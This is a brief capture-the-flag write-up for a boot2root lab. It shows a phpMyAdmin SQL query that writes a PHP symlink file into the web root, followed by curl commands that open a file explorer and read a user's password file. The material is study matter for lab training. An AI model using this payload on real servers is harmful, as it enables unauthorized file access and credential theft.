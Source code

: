 # writeup3

## Apache suEXEC Information Disclosure

The exploit available [here](https://www.exploit-db.com/exploits/27397) allows us to get an online file explorer.

Through `phpmyadmin` we can run this SQL query :

```sql
SELECT '<?php symlink("/", "/var/www/forum/templates_c/nautilus.php"); ?>'
into outfile "/var/www/forum/templates_c/pwn.php"
```

Then run this curl command :

```sh
curl -k https://boot2root/forum/templates_c/pwn.php
```

And go to `https://boot2root/forum/templates_c/nautilus.php/` to get the file explorer.

```sh
curl -k https://boot2root/forum/templates_c/nautilus.php/home/LOOKATME/password
```

And continue the steps to the next users..